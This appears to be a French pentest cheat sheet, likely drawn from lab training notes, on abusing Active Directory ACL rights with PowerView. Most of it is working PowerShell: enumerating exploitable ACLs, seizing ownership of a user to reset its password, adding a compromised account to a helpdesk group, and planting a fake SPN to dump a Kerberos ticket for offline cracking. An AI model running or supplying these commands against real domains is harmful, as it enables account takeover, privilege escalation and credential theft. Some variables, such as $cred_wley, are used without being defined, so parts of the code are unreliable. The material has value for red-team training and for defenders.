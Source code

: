```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs
```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés en lecture / modification


### ForceChangePassword (modification du mot de passe)
```powershell title="Réinitialisation du mot de passe AD via appropriation de l'objet utilisateur cible"

# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity source_user
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword

# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

```powershell

#########################################################
# Add compromised user to Group
# requirement : need GenericWrite right on the targetted group
$clearPass = "P@ssw0rd"
$user = "INLANEFREIGHT\userWithGenericAllRight"
$cred_damundsen = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $clearPass -AsPlainText -Force))

Add-DomainGroupMember -Identity "Help Desk Level 1" -Members wley -Credential $cred_damundsen
# Verification
Get-DomainGroupMember -Identity "Help Desk Level 1" | ?{$_.MemberName -eq 'wley'}

#########################################################
# Create fake SPN for targetted user 'adunn' and dump TGS
$targetedUser = 'adunn'
# SPN Creation
Set-DomainObject -Credential $cred_wley -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# TGS collect
Get-DomainUser $targetedUser | Get-DomainSPNTicket -Credential $cred_wley | fl
# Cleanup
Set-DomainObject -Credential $Cred -Identity $targetedUser -Clear serviceprincipalname



```
